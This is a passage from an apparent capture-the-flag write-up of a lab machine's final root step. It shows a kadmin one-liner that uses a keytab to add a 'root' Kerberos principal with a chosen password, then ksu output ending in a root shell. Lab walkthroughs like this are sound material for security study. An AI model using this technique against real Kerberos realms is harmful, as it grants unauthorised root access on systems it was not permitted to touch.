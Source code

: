 - Since we are `admin` of the `kerberos` database, we can add `root` principal and switch to `root`
  - To switch the user we use [ksu](https://web.mit.edu/kerberos/krb5-latest/doc/user/user_commands/ksu.html)
  - One-liner: `kadmin -kt /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB -q "add_principal -pw pentest root"`
```
kadmin:  add_principal root
No policy specified for root@REALCORP.HTB; defaulting to no policy
Enter password for principal "root@REALCORP.HTB": 
Re-enter password for principal "root@REALCORP.HTB": 
Principal "root@REALCORP.HTB" created.
kadmin:  list_principals
K/M@REALCORP.HTB
host/srv01.realcorp.htb@REALCORP.HTB
j.nakazawa@REALCORP.HTB
kadmin/admin@REALCORP.HTB
kadmin/changepw@REALCORP.HTB
kadmin/srv01.realcorp.htb@REALCORP.HTB
kiprop/srv01.realcorp.htb@REALCORP.HTB
krbtgt/REALCORP.HTB@REALCORP.HTB
root@REALCORP.HTB
kadmin:  exit
[admin@srv01 home]$ ksu
WARNING: Your password may be exposed if you enter it here and are logged 
         in remotely using an unsecure (non-encrypted) channel. 
Kerberos password for root@REALCORP.HTB: : 
Authenticated root@REALCORP.HTB
Account root: authorization for root@REALCORP.HTB successful
Changing uid to root (0)
[root@srv01 home]#
```